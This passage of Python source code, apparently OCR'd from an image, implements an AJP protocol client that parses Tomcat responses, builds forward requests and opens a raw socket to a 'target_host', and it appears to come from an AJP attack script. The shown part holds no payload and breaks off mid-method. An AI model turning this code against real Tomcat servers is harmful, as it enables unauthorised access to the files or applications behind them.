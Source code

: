```python
                stream.read(1) # \0
                h_value = unpack_string(stream)
            else:
                h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
                h_value = unpack_string(stream)
            self.response_headers[h_name] = h_value

    def parse_send_body_chunk(self, stream):
        self.data_length, = unpack(stream, ">H")
        self.data = stream.read(self.data_length+1)

    def parse_end_response(self, stream):
        self.reuse, = unpack(stream, "b")

    def parse_get_body_chunk(self, stream):
        rlen, = unpack(stream, ">H")
        return rlen

    @staticmethod
    def receive(stream):
        r = AjpResponse()
        r.parse(stream)
        return r

import socket

def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):
    fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
    fr.method = method
    fr.protocol = "HTTP/1.1"
    fr.req_uri = req_uri
    fr.remote_addr = target_host
    fr.remote_host = None
    fr.server_name = target_host
    fr.server_port = 80
    fr.request_headers = {
        'SC_REQ_ACCEPT': 'text/html',
        'SC_REQ_CONNECTION': 'keep-alive',
        'SC_REQ_CONTENT_LENGTH': '0',
        'SC_REQ_HOST': target_host,
        'SC_REQ_USER_AGENT': 'Mozilla',
        'Accept-Encoding': 'gzip, deflate, sdch',
        'Accept-Language': 'en-US,en;q=0.5',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0'
    }
    fr.is_ssl = False
    fr.attributes = []
    return fr

class Tomcat(object):
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.socket.connect((target_host, target_port))
        self.stream = self.socket.makefile("rb", bufsize=0)

    def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
        self.req_uri = req_uri
```